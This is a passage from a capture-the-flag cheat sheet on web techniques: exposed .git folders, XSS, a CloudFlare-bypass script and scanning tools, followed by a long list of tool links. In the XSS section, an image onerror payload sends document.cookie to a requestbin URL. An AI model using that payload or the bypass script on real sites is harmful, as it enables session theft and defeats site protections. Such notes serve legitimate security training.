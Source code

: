 	This directory is often found by directory scanning bruteforce tools, so I recommend just checking the directory on your own, as part of your own "low-hanging fruits" check.

* `/.git/`
	
	A classic CTF challenge is to leave a `git` repository live and available on a website. You can see this with `nmap -A` (or whatever specific script catches it) and just by trying to view that specific folder, `/.git/`. A good command-line tool for this is [`GitDumper.sh`](https://github.com/internetwache/GitTools), or just simply using [`wget`][wget].

* [`GitDumper.sh`][GitDumper.sh]
	
	A command-line tool that will automatically scrape and download a [git] repository hosted online with a given URL.

* [XSS]/[Cross-site scripting]

	[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet). [Cross-site scripting], vulnerability where the user can control rendered [HTML] and ideally inject [JavaScript] code that could drive a browser to any other website or make any malicious network calls. Example test payload is as follows:

```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

	Typically you use this to steal cookies or other information, and you can do this with an online requestbin.

```
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
```

* [CloudFlare Bypass](https://github.com/Anorov/cloudflare-scrape)

	If you need to script or automate against a page that uses the I'm Under Attack Mode from CloudFlare, or DDOS protection, you can do it like this with linked Python module.
	
``` python
#!/usr/bin/env python

import cfscrape

url = 'http://yashit.tech/tryharder/'

scraper = cfscrape.create_scraper() 
print scraper.get(url).content 
```

* [XSStrike]

	A command-line tool for automated [XSS] attacks. Seems to function like how [sqlmap] does.

* [`wpscan`][wpscan]

	* A Ruby script to scan and do reconnaissance on a [Wordpress] application. 
	
* Cookie Catcher


[steghide]: http://steghide.sourceforge.net/
[snow]: http://www.darkside.com.au/snow/
[cribdrag.py]: https://github.com/SpiderLabs/cribdrag
[cribdrag]: https://github.com/SpiderLabs/cribdrag
[pcap]: https://en.wikipedia.org/wiki/Pcap
[PCAP]: https://en.wikipedia.org/wiki/Pcap
[Wireshark]: https://www.wireshark.org/
[Network Miner]: http://www.netresec.com/?page=NetworkMiner
[PCAPNG]: https://github.com/pcapng/pcapng
[pcapng]: https://github.com/pcapng/pcapng
[pdfcrack]: http://pdfcrack.sourceforge.net/index.html
[GitDumper.sh]: https://github.com/internetwache/GitTools
[pefile]: https://github.com/erocarrera/pefile
[Python]: https://www.python.org/
[PE]: https://en.wikipedia.org/wiki/Portable_Executable
[Portable Executable]: https://en.wikipedia.org/wiki/Portable_Executable
[hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[QR code]: https://en.wikipedia.org/wiki/QR_code
[QR codes]: https://en.wikipedia.org/wiki/QR_code
[QR]: https://en.wikipedia.org/wiki/QR_code
[zbarimg]: https://linux.die.net/man/1/zbarimg
[Linux]: https://en.wikipedia.org/wiki/Linux
[Ubuntu]: https://en.wikipedia.org/wiki/Ubuntu_(operating_system)
[Wine]: https://en.wikipedia.org/wiki/Wine_(software)
[Detect DTMF Tones]: http://dialabc.com/sound/detect/index.html
[dnSpy]: https://github.com/0xd4d/dnSpy
[Windows]: https://en.wikipedia.org/wiki/Microsoft_Windows
[.NET]: https://en.wikipedia.org/wiki/.NET_Framework
[Vigenere Cipher]: https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[Playfair Cipher]: https://en.wikipedia.org/wiki/Playfair_cipher
[bcompiler]: http://php.net/manual/en/book.bcompiler.php
[PHP]: https://en.wikipedia.org/wiki/PHP
[GET]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[pdfdetach]: https://www.systutorials.com/docs/linux/man/1-pdfdetach/
[sqlmap]: https://github.com/sqlmapproject/sqlmap
[hachoir-subfile]: https://pypi.python.org/pypi/hachoir-subfile/0.5.3
[wget]: https://en.wikipedia.org/wiki/Wget
[git]: https://git-scm.com/
[Cross-site scripting]: https://en.wikipedia.org/wiki/Cross-site_scripting
[XSS]: https://en.wikipedia.org/wiki/Cross-site_scripting
[HTML]: https://en.wikipedia.org/wiki/HTML
[JavaScript]: https://en.wikipedia.org/wiki/JavaScript
[PEiD]: https://www.aldeid.com/wiki/PEiD
[wpscan]: https://wpscan.org/
[Ruby]: https://www.ruby-lang.org/en/
[Wordpress]: https://en.wikipedia.org/wiki/WordPress
[dumpzilla]: http://www.dumpzilla.org/
[hexed.it]: https://hexed.it/
[Magic Numbers]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Magic Number]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Edit This Cookie]: http://www.editthiscookie.com/
[cookie]: https://en.wikipedia.org/wiki/HTTP_cookie
[cookies]: https://en.wikipedia.org/wiki/HTTP_cookie
[formatStringExploiter]: http://formatstringexploiter.readthedocs.io/en/latest/index.html
[format string vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[printf vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[Java]: https://en.wikipedia.org/wiki/Java_(programming_language)
[JAR]: https://en.wikipedia.org/wiki/JAR_(file_format)
[OpenStego]: https://www.openstego.com/
[Stegsolve.jar]: http://www.caesum.com/handbook/stego.htm
[Stegsolve]: http://www.caesum.com/handbook/stego.htm
[PcapXray]: https://github.com/Srinivas11789/PcapXray
[Atbash Cipher]: https://en.wikipedia.org/wiki/Atbash
[TestDisk]: https://www.cgsecurity.org/Download_and_donate.php/testdisk-7.1-WIP.linux26.tar.bz2
[PNG]: https://en.wikipedia.org/wiki/Portable_Network_Graphics
[jd-gui]: https://github.com/java-decompiler/jd-gui
[dex2jar]: https://github.com/pxb1988/dex2jar
[apktool]: https://ibotpeaches.github.io/Apktool/
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[remote code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[arbitrary code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[XSStrike]: https://github.com/UltimateHackers/XSStrike
[nishang]: https://github.com/samratashok/nishang
[Malboge]: https://en.wikipedia.org/wiki/Malbolge
[Piet]: https://esolangs.org/wiki/Piet
[npiet]: https://www.bertnase.de/npiet/
[LC4]: https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html
[Empire]: https://github.com/EmpireProject/Empire
[Base64]: https://en.wikipedia.org/wiki/Base64
[Base32]: https://en.wikipedia.org/wiki/Base32
[Base85]: https://en.wikipedia.org/wiki/Ascii85
[fcrackzip]: https://github.com/hyc/fcrackzip
[zsteg]: https://github.com/zed-0xff/zsteg
[jsteg]: https://github.com/lukechampine/jsteg
[jstego]: https://sourceforge.net/projects/jstego/
[StegCracker]: https://github.com/Paradoxis/StegCracker
[Base41]: https://github.com/sveljko/base41/blob/master/python/base41.py
[Base65535]: https://github.com/qntm/base65536
[Easy Python Decompiler]: https://github.com/aliansi/Easy-Python-Decompiler-v1.3.2